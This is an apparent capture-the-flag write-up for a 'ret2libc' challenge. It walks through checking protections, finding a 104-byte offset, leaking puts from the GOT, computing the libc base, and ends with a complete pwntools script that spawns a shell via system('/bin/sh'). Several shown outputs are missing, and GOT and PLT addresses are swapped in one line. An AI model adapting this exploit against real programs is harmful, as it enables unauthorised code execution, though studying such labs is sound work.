




# Analysis

* First lets do a `checksec` to see how we can deal with this:

    

    - Okay, NX (No Execute) is enabled, so we can't spawn a shell on the stack.

* I come across this article: https://bufferoverflows.net/camp-ctf-2015-bitterman-write-up/

* Okay lets see the list of functions:

    

* Looks like `vuln` is where we should be interested in.

# Exploit

* Disassembly `vuln`:

    

* I'll set a breakpoint at this line: `0x00000000004005ce <+8>:     lea    rax,[rbp-0x60]` to find the address of our `buffer`;

    

    - So the address of our `buffer` is : 0x7fffffffdec0 - 0x60 = 0x7fffffffde60.

* Also, set a breakpoint at the return instruction of `vuln`:

    

    - So that is our return address. Lets calculate the distance between our `buffer` and this: 0x7fffffffdec8 - 0x7fffffffde60 = 0x68 = 104.

* As the README suggest, we will look for `pop rdi, ret` gadget:

    


* One more thing, the address of `main`:

    


* Now we will try to leak addresses of functions in libc.

* Start with `puts`:

    

    - So the address of `puts` in GOT is 0x400480 and in PLT is 0x601018

* We will put this in our script:

    

    - I've run it several to find the offset -6.


* So we have successfully leak an address from libc and stored it in `puts_addr`. Now lets find the base address of each functions we want to put in our exploit in the libc. I'll use `puts` and `system`.

* We want to extract the addresses of `puts` and `system` from libc.so.6:

    

* Also, we need the address of "/bin/sh":

    

* Looks good, lets update our script:

```
from pwn import *
import struct

p = process("./ret2libc")

got_puts = 0x601018
plt_puts = 0x400480
main = 0x400610
pop_rdi = 0x4006a3

pad = b"A" * 104

payload = pad + p64(pop_rdi) + p64(got_puts) + p64(plt_puts) + p64(main)

p.sendline(payload)

d = p.recv().strip()
puts_addr = u64(d[-6:].ljust(8, b"\x00"))


libc_puts = 0x075db0
libc_system = 0x04a490
libc_sh = 0x1b3115
ret = 0x400469

offset = puts_addr - libc_puts

payload = pad + p64(ret) + p64(pop_rdi) + p64(libc_sh + offset) + p64(libc_system + offset)

p.sendline(payload)

p.interactive()
```

* Now run it:

    

# Bugs

* This challenge is vulnerable because we can leak addresses of functions in the global offset table and use that to perform a `ret2libc` attack.


